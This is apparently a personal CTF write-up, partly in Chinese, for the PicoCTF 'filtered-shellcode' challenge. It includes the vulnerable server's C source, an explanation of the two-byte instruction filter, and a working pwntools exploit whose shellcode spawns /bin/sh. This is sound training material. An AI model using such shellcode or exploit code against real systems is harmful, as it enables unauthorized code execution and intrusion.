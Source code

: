 ```yaml
---
title: PicoCTF - filtered-shellcode
tags: [PicoCTF, CTF, PWN]

---
```


# PicoCTF - filtered-shellcode
## Background
Shell Code
Reverse
## Source code
:::spoiler Source Code Got From Server After Get Shell
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_LENGTH 1000

void execute(char *shellcode, size_t length) {
    if (!shellcode || !length) {
        exit(1);
    }
    size_t new_length = length * 2;
    char result[new_length + 1];

    int spot = 0;
    for (int i = 0; i < new_length; i++) {
        if ((i % 4) < 2) {
            result[i] = shellcode[spot++];
        } else {
            result[i] = '\x90';
        }
    }
    // result[new_length] = '\xcc';
    result[new_length] = '\xc3';

    // Execute code
    int (*code)() = (int(*)())result;
    code();
}

int main(int argc, char *argv[]) {
    setbuf(stdout, NULL);
    char buf[MAX_LENGTH];
    size_t length = 0;
    char c = '\0';

    printf("Give me code to run:\n");
    c = fgetc(stdin);
    while ((c != '\n') && (length < MAX_LENGTH)) {
        buf[length] = c;
        c = fgetc(stdin);
        length++;
    }
    if (length % 2) {
        buf[length] = '\x90';
        length++;
    }
    execute(buf, length);
    return 0;
}
```
:::
## Recon
這一題沒有很難，但我沒有解出來，主要是因為reverse看不懂，完了QAQ，IDA都亂翻，只能求助於[^pico_pwn_filtered_shellcode_wp]，其實很簡單，好像也沒有filter的成分在，如果限制只能用每次兩bytes寫shell code不算的話
1. 其實就兩個function，一個是main function，另外一個是execute function，execute function主要會每一個shell code中間插入兩個nop，然後用function pointer的方式執行，所以我們的目標是寫一個shell code script開server的shell
2. 重點是shell code的instruction只能用2 bytes的instruction，所以沒辦法用類似`mov eax, 0x6e69622f`的這種方式，會GG，原因出自於execute function的for loop，他會把我們寫的shell code用2 bytes的方式切開，然後中間塞兩個nop(也就是兩個\x90，也是兩個bytes)，所以這其實就是限制我們只能用2 bytes寫shell code
    ```cpp!
    if ((i % 4) < 2) {result[i] = shellcode[spot++];}
    else {result[i] = '\x90';}
    ```
4. 所以不能隨便用exploit db上找到的shell code複製貼上，或是用以下payload，必須要善用`shl`，只要shl 16次(也就是2 bytes)就可以同時方式0x6e69622f，效果和`mov eax, 0x6e69622f`一樣
    ```asm!
    payload = asm("""
        mov eax, 0x6e69622f
        push eax
        mov eax, 0x0068732f
        push eax
        xor eax, eax
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        mov eax, 0xb
        lea ebx, DWORD PTR [esp]
        int 0x80
    """)
    ```
## Exploit - Write Properly Shell Code
```python!
from pwn import *

r = process('./fun')
# r = remote('mercury.picoctf.net', 35338)
r.recvline()

payload = asm("""
    /*Put the syscall number of execve in eax*/
    xor eax, eax
    mov al, 0xb
    
    /*Put zero in ecx and edx*/
    xor ecx, ecx
    xor edx, edx
    
    /*Push "/sh\x00" on the stack*/
    xor ebx, ebx
    mov bl, 0x68
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x73
    mov bl, 0x2f
    push ebx
    nop
    
    /*Push "/bin" on the stack*/
    mov bh, 0x6e
    mov bl, 0x69
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x62
    mov bl, 0x2f
    push ebx
    nop
              
    /*Move the esp (that points to "/bin/sh\x00") in ebx*/
    mov ebx, esp/*Syscall*/
    int 0x80
""")
r.sendline(payload)

r.interactive()
```
## Reference
[^pico_pwn_filtered_shellcode_wp]:[PicoCTF - Filtered Shellcode [Pwn]](https://cyb3rwhitesnake.medium.com/picoctf-filtered-shellcode-pwn-3d69010376df)